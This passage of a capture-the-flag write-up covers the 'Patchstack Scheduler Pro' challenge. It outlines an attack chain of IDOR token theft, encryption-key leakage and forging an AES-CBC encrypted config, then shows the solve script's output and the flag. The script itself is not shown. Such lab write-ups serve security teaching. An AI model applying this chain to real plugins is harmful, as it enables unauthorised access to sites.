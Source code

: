 ## Exploitation

To get the flag, we need to:
1. Get the API token via AJAX action that is vulnerable to IDOR
2. Leak the encryption key via bypassing the validations
3. Forge our own encrypted config
4. Get the flag via AJAX action `patchstack_scheduler_settings` with the forged config

To automate the above steps, I've written the following solve PHP script:

<details><summary markdown="span"><strong>solve.php</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Patchstack-Scheduler-Pro)-[2025.02.24|21:48:43(HKT)]
└> php solve.php
[*] Getting the API token...
[+] API token: X1xyWiJlgs0uCvEyRwGfNLrTlpFas3mS
[*] Encrypted config:
MWEwNDY1YWQtMTFkMy00NG3dDSyMtvZuU+aUR3m+mhbmL97Xms5PKdE68WEwW3Qm54qJ9mGDY4Ar39kDk23WXzu5T7MZ/RKX2bdbRO7jcbp1ALhvPEpVM2LAM0a6y+cnM7bok0/lA2APiaurEdz4eH6xddsf6RQ/AeO9QNCZI/1iQC1rpGJyA40KmhIwl6Vg
[*] Decrypted config:
Array
(
    [status] => draft
    [permissions] => Array
        (
            [view] => 1
            [edit] => 
        )

    [encryption_key] => 1a0465ad-11d3-440c-9b80-42d429652c9c
)
[*] Forged encrypted config:
MWEwNDY1YWQtMTFkMy00NBNIFjAu66sd6Nnz83BhD+1Jpn18yM/ym6Szov5d8MU2XUbu+dvlmap+PuHPfiDhXyqtUuJL55byn0tM+OX+M43UVWSi3c06YVe3g5qVVs5ajv+LPOWaddqVJHtyvbLDwU9JApfPhg++Y+F/G/UpjSSRtBnt0cwv2G1jg5Xv2Xg2
[+] Flag: CTF{crypt0_aint_crypt0ing_patchstack2o25}
```

- **Flag: `CTF{crypt0_aint_crypt0ing_patchstack2o25}`**

## Conclusion

What we've learned:

1. IDOR to read arbitrary posts
2. Decrypt AES CBC mode encrypted data using 16 characters partial key